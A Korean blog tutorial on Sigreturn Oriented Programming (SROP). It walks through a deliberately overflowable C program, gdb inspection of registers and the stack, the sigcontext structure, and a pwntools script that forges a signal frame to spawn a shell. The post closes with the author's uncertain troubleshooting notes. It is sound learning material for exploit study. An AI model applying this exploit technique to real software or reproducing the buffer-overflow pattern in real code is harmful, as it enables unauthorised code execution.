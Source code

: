 ```yaml
---
layout: post
title: "Sigreturn oriented programming"
excerpt: "Try to know SROP & use it ~_~"
categories: [system]
comments: true 
---
```


이번에는 ROP의 다른 종류(?) 느낌인 SROP에 대하여 알아보자.

### 0x0. SROP?

sigreturn 시스템 콜을 이용하여 레지스터에 원하는 값을 저장하는 기법 > 이를 이용하여 원하는 시스템 함수를 호출

ROP를 하기에 가젯이 불충분할 경우 주로 사용 > 많은 가젯이 필요하지 않고 INT80 가젯만으로 충분



### 0x1. signal

SROP는 sigreturn으로 쉘을 따는데, sigreturn을 syscall table에서 찾아보면 eax로 119를 넘겨주면 실행되고, 파라미터로는 unsigend long이 요구된다.

시그널을 받은 프로세스가 커널 모드에서 유저모드로 복귀할 때 사용하는 system call이 sigreturn system call이다. 



### 0x2. example

```c
#include <stdio.h>

void int80(){
asm("int $0x80");
}

int main(){
char buf[8];
read(0,buf,128);
}
```

위와 같은 코드가 있을 때,  우리는 SROP를 하기 위해 read에서 bof를 발생 시킨 후 eax를 조작하고 ret addr를 int 0x80으로 넘겨줘야한다.  
후에 이를 이용하여 /bin/sh을 실행시킨다. 119개의 문자열을 입력하고 int 0x80으로 ret하면 sigreturn함수가 호출된다. 

![srop1](/img/srop1.png)

우선 read다음으로 breakpoint를 걸고 A를 118개를 넣어본다. 그 후  x/40wx $rsp를 보면 아래같이 A로 가득찬걸 볼 수 있다.

![srop2](/img/srop2.png)

다음으로는  i r 을 통하여 레지스터 값을 본다.

![srop3](/img/srop3.png)

레지스터 값을 보면 rax 레지스터에 0x77이 들어가있는걸 확인할 수 있다. 이  0x77이 바로 sigreturn의 syscall number이다.  이제는 ret addr을 int 0x80 gadget으로 덮어씌우자. 

이제 int 0x80 함수를 보면 아래와 같다.

![srop4](/img/srop4.png)

이제 int80의 주소를 main의 ret addr에 넣을것이다 . gdb에서 set {int}0xffffd1d0=0x08048413를 이용하여 가능하다.

![srop5](/img/srop5.png)

이렇게 잘 덮어씌어진걸 알 수 있다.  이제는 sigreturn를 호출하는 sigcontext.h 구조체를 봐야한다.

```c
struct sigcontext{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

이제 이를 참고하여 exploit code를 작성해보자.



### 0x3. exploit :

```python
from pwn import *
p = process('./srop')

syscall = 0x08048413

payload = "A"*20
payload += p32(syscall)
payload += p32(0x33)
payload += p32(0)
payload += p32(0x7b)
payload += p32(0x7b)
payload += p32(0)
payload += p32(0)
payload += p32(0) #ebp
payload += p32(0) #esp
payload += p32(0xffffd184)

payload += p32(0)
payload += p32(0)
payload += p32(0xb)
payload += p32(0)
payload += p32(0)
payload += p32(syscall)
payload += p32(0x73)
payload += p32(0x246)
payload += p32(0)
payload += p32(0x7b)
payload += "\x00"*(118-len(payload))

p.sendline(payload)
p.interactive()
```

아니 난 왜 대체 익스가 안되나 계속 생각해봤는데 아직도 모르겠다. 왜 계속 다른 레지스터들은 변조가 되는데 eip랑 ecx는 변조가 안될까...  결국 그냥 다시 코딩해서 해결했다. 왜 처음엔 안된걸까 

++++++
드디어 왜 안된지 알아낸 것 같다. 
The full **vsyscall** features. This config option can be found before v4.15. This includes *Ubuntu 18.04.2*. However, *Ubuntu 18.04* does **not** use this configuration.
그냥 내가 사용하는 우분투 버전인 18.04버전에서는 vsyscall이 구성되어 있지 않다고 한다... 이거 때문인 것 같다..

